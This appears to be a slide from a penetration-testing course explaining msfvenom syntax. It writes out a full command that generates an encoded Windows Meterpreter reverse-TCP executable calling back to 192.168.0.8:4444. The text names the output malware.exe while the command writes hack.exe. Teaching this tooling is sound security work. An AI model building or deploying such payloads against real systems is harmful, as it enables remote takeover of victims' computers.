

# Msfvenom Syntax
-e x86/shikata_ga_nai
designates the encoder we will use.
msfvenom
launches the MSFvenom program.
-o /tmp/malware.exe
creates an output file, naming the file (malware.exe) and location (inside the /tmp directory).

windows/meterpreter/reverse_tcp
is the Metasploit command module.

msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=192.168.0.8 LPORT=4444

p
indicates payload.
-a x86
designates the architecture we will use. x86 is default.
-f exe
indicates the file type to create. In this case, .exe.
13